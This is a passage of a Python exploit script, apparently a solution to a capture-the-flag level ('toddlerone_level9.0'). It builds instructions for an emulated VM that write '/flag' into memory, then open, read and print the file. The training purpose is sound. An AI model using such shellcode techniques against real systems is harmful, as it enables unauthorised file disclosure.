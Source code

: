 ```python

        formatted_item = formatted_item.replace(b'\{stm}', bytes([stm]))
        formatted_item = formatted_item.replace(b'\{imm}', bytes([imm]))

        formatted_data_list.append(formatted_item)
    return formatted_data_list

elf = ELF("/challenge/toddlerone_level9.0")

data_list = [
    b'\{a}\{imm}\x00', # imm a, 0x00
    b'\{b}\{imm}\xff', # imm b, 0xff
    b'\{c}\{imm}\xff', # imm c, 0xff
    b'\{read}\{sys}\{a}', # read(a, b  ,c) ---> return a
]

# Operation: stm=128, Registers:  a=64, b=2, c=4, sys: read=8, write=16, open=4
payload_1 = b''.join(format_data_list(a=0x8,b=0x20,c=0x2,read=0x2,write=0x4,open_=0x10,stm=0x01,imm=0x02, sys=0x04))

data_list = [
    b'\xff'             # 填充FF位置
    b'\xff\xff\xff',    # 填充第1条指令
    b'\xff\xff\xff',    # 填充第2条指令
    b'\xff\xff\xff',    # 填充第3条指令
    b'\xff\xff\xff',    # 填充第4条指令

    b'\{a}\{imm}\x00', # imm a, 0x00
    b'\{b}\{imm}\x2f', # imm b, 0x2f
    b'\{a}\{stm}\{b}', # stm *a = b

    b'\{a}\{imm}\x01', # imm a, 0x01
    b'\{b}\{imm}\x66', # imm b, 0x66
    b'\{a}\{stm}\{b}', # stm *a = b

    b'\{a}\{imm}\x02', # imm a, 0x02
    b'\{b}\{imm}\x6c', # imm b, 0x6c
    b'\{a}\{stm}\{b}', # stm *a = b

    b'\{a}\{imm}\x03', # imm a, 0x03
    b'\{b}\{imm}\x61', # imm b, 0x61
    b'\{a}\{stm}\{b}', # stm *a = b

    b'\{a}\{imm}\x04', # imm a, 0x04
    b'\{b}\{imm}\x67', # imm b, 0x67
    b'\{a}\{stm}\{b}', # stm *a = b

    b'\{a}\{imm}\x00', # imm a, 0x00
    b'\{b}\{imm}\x00', # imm b, 0x00
    b'\{open}\{sys}\{a}', # open ---> return a

    b'\{b}\{imm}\x10', # imm b, 0x10
    b'\{c}\{imm}\x40', # imm c, 0x40
    b'\{read}\{sys}\{a}', # read(a, b, c) ---> return a

    b'\{a}\{imm}\x01', # imm a, 0x01
    b'\{write}\{sys}\{a}', # write(a, b, c) ---> return a

    b'\{a}\{imm}\x00', # imm a, 0x00
    b'\x08\{sys}\{a}', # exit(a)

]

```